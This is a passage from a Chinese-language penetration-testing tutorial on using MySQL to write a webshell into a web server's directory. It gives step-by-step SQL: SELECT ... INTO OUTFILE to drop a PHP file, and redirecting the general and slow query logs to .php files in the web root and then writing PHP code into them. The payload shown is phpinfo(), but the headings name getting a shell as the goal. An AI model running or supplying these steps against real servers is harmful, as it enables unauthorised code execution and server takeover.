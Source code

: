 编写一句phpinfo文件，

```
select "<?php phpinfo();?>" INTO OUTFILE  "d:\\phpstudy\\www\\7.php"
```

这里必须注意要双反斜线，否则会转义，

#### 2.1.2 通过写入日志文件getshell

读写权限+web绝对路径，修改日志文件为webshell

具体利用方法如下

(1) 开启日志记录:

```
set global general_log = "ON";
```

(2) 查看当前的日志目录:

```
show variables like 'general%';
```

(3) 指定日志文件

```
set global general_log_file = "C:/phpStudy/PHPTutorial/WWW/404.php";
```

(4)) 写入执行代码：

```
select "<?php phpinfo();?>";
```

#### 2.1.3 通过慢查询写入webshell

具体方法如下：

(1) 查看当前慢查询日志目录：

```
show variables like '%slow%';
```

(2) 重新设置路径：

```
set GLOBAL slow_query_log_file='C:/phpStudy/PHPTutorial/WWW/slow.php';
```

(3) 开启慢查询日志：

```
set GLOBAL slow_query_log=on;
```

(4)) 执行写入日志：

```
select '<?php phpinfo();?>' from mysql.db where sleep(10);
```
